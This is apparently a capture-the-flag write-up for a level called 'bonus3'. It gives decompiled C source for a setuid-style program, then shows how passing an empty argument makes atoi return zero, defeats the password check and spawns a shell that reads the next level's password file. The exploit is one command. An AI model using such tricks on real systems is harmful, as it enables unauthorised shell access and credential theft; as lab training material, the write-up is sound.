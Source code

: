 bonus3
======

Decompilation
-------------

The program looks like this:
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main(int ac, char **av)
{
	int err;
	char buff[64 + 1 + 66];
	FILE *pass_file;

	pass_file = fopen("/home/user/end/.pass","r");

	bzero(buff, 33);

	if ((pass_file == NULL || (ac != 2)))
		err = -1;
	else
	{
		fread(buff, 1, 66, pass_file);
		buff[64] = '\0';

		buff[atoi(av[1])] = '\0';

		fread(buff + 64 + 1, 1, 65, pass_file);

		fclose(pass_file);

		if (strcmp(buff, av[1]) == 0)
			execl("/bin/sh","sh", 0);
		else
			puts(buff + 64 + 1);

		err = 0;
	}
	return err;
}
```

The main opens the end user's pass file and reads it's contents into a buffer.
It does so twice, at different offsets, but the second call should only read a NUL-byte.
The string is trimmed to the length specified in the first argument.
If the trimmed password is equal to the argument, a shell will be launched.

Exploitation
------------
This one is too easy...
The return value of atoi when given an empty string is zero. If we pass an empty string as an argument, the password string will become an empty string and the comparison will succeed.

```sh
./bonus3 '' <<< 'cat /home/user/end/end'
```
```
Congratulations graduate!
```

